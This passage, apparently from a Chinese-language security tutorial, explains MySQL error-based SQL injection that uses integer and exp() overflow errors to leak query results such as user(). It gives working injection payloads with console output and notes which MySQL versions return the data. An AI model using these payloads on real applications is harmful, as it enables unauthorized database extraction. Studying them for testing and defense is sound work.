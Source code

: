 		mysql> select !(select * from (select user())x);
		+-----------------------------------+
		| !(select * from (select user())x) |
		+-----------------------------------+
		|                                 1 |
		+-----------------------------------+
		1 row in set (0.01 sec)
		
		mysql> select !(select * from (select user())x)+1;
		+-------------------------------------+
		| !(select * from (select user())x)+1 |
		+-------------------------------------+
		|                                   2 |
		+-------------------------------------+
		1 row in set (0.00 sec)

同理，利用exp函数也会产生类似的溢出错误：

		mysql> select exp(709);
		+-----------------------+
		| exp(709)              |
		+-----------------------+
		| 8.218407461554972e307 |
		+-----------------------+
		1 row in set (0.00 sec)
		
		mysql> select exp(710);
		ERROR 1690 (22003): DOUBLE value is out of range in 'exp(710)'

注入姿势：

		mysql> select exp(~(select*from(select user())x));
		ERROR 1690 (22003): DOUBLE value is out of range in 'exp(~((select 'root@localhost' from dual)))'

利用这一特性，再结合之前说的溢出报错，就可以进行注入了。这里需要说一下，经笔者测试，发现在mysql5.5.47可以在报错中返回查询结果：
		
		mysql> select (select(!x-~0)from(select(select user())x)a);
		ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '((not('root@localhost')) - ~(0))'

而在mysql>5.5.53时，则不能返回查询结果
		
		mysql> select (select(!x-~0)from(select(select user())x)a);
		ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '((not(`a`.`x`)) - ~(0))'

此外，报错信息是有长度限制的，在mysql/my_error.c中可以看到：

	/* Max length of a error message. Should be
	kept in sync with MYSQL_ERRMSG_SIZE. */
	/#define ERRMSGSIZE (512)

### 0x02 xpath语法错误
